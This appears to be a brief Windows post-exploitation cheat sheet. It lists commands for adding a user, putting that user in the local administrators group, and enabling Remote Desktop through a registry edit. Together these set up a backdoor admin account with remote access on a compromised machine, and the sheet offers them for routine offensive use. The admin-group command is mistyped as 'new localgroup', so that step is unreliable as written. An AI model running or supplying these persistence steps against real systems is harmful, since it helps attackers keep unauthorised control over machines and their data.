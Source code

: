 # Post Exploitation Cheat Sheet
This module will contain all Windows/DOS post exploitation items that I use on a daily basis.
## Add Admin User
1. Add the User:
* `net user /add [username] [password]`
2. Add the usedr to the Admin Group:
* `new localgroup administrators [username] /add`
## Enable RDP (XP+)
1. To enable RDP (must be Windows XP or above as the `reg` command will be used.)
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
